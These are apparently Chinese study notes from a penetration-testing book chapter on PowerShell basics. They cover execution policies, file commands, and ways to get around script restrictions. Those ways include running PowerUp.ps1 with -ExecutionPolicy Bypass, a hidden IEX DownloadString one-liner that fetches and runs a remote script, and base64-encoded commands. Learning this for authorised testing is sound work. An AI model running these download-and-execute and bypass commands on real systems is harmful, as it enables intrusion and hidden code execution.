

# 第一章 内网渗透测试基础

## Windows Powershell基础

查看Powershell版本

```powershell
Get-Host
$PSVersionTable.PSVERSION
```



执行策略：

在限制了Powershell不能使用时可以使用此方式进行设置允许执行Powershell脚本

```powershell
Set-ExecutionPolicy Unrestricted
```


策略共四种:

```
Restricted：脚本不能运行
RemoteSigned：本地可以运行
AllSigned：仅当脚本由受信任的发布者签名时才能运行
Unrestricted：允许所有脚本允许
```

附加：

原文中提到运行脚本，可以使用.\a.ps1

如果是使用Import-Module加载脚本可以使用：

```powershell
. .\a.ps1
```

### 管道

```
get-process p* | stop-process
```

### 常用命令

```
新建目录：New-Item aaa -ItemType Directory（实际上在5.0版本可以直接通过md）
新建文件:New-Item aaa.txt
删除目录：Remove-Item aaa.txt可以直接使用rm
显示文件内容：Get-Content可以直接使用cat
设置文本内容：Set-Content aaa.txt -Value "aaa"
追加内容:Add-Content aaa.txt -Value "aaa"
```

#### 绕过本地权限执行

```powershell
Powershell.exe -ExecutionPolicy Bypass -File PowerUp.ps1
```

上传之后执行：

```powershell
powershell.exe -exec bypass -Command "& {Import-module C:\PowerUp.ps1;Invoke-AllChecks}"
```

远程加载(此处原书中存在空格被吞的情况)：

```powershell
powershell.exe -ExecutionPolicy Bypass -WindowsStyle Hidden -NoProfile -NonI IEX(New-ObjectNet.WebClient).DownloadString("http://www.baidu.com/xxx.ps1");
```

使用Base64编码对Powershell命令进行编码：

使用ps_encoder.py脚本加密（https://github.com/h4sh5/ps_encoder）：

```
./ps_encoder.py -s script.txt
```


```
powershell -encodedCommand YwBhAGwAYwAuAGUAeABlAAoA
```


搭建内网环境：省略
